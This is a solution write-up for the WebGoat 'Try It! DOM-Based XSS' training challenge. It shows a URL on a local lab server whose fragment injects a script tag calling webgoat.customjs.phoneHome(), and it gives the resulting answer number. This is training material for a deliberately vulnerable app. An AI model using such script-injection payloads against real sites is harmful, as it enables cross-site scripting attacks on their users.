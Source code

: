 # Challenge name: Try It! DOM-Based XSS

### Challenge Description
Some attacks are "blind." Fortunately, you have the server running here, so you can tell if you are successful. Use the route you just found and see if you can use it to reflect a parameter from the route without encoding to execute an internal function in WebGoat. The function you want to execute is:

**webgoat.customjs.phoneHome()**

Sure, you could use console/debug to trigger it, but you need to trigger it via a URL in a new tab.

Once you trigger it, a subsequent response will come to your browser’s console with a random number. Put that random number below.

### My solution
- Go to test router `192.168.10.1:4040/WebGoat/start.mvc#test/`
- If you add anythings parameter like `http://192.168.10.1:4040/WebGoat/start.mvc#test/XSS%20Attack`
- In this page will print `test:<Your parameter>`
- I'm using script tag to parameter `<script>webgoat.customjs.phoneHome()</script>`
- Full URL is:
`192.168.10.1:4040/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome()%3C%2Fscript%3E`
- Open console Dev tools and look at response
![img](chall-attached/img-3.png)
- Answer is the random number `-1103334663`